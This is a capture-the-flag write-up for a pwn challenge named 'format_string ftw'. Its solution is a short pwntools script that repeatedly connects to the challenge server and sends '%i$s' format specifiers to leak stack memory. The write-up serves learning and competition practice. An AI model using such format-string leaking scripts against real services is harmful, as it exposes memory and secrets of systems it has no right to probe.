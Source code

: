 ```yaml
---
comments: true
authors:
  - gr007
tags:
  - pwn
  - coderush
---
```


# format_string ftw

## Description

No one should see what I have in stack! Its only mine!

`nc 139.59.0.163 7777`

>Author: `peace_ranger`

## Solution

We are only given a connection information. we can connect to this via netcat. as this is a black box challenge where the clues are given in the challenge name and description, nothing else need to be said. The following exploit should work just fine:

```python
#!/usr/bin/env python

from pwn import *


for i in range(1,200):
    p = remote("139.59.0.163",7777)
    x = f'%{i}$s'
    p.recvline()
    p.sendline(bytes(x,"UTF-8"))
    print(p.recvline())

```
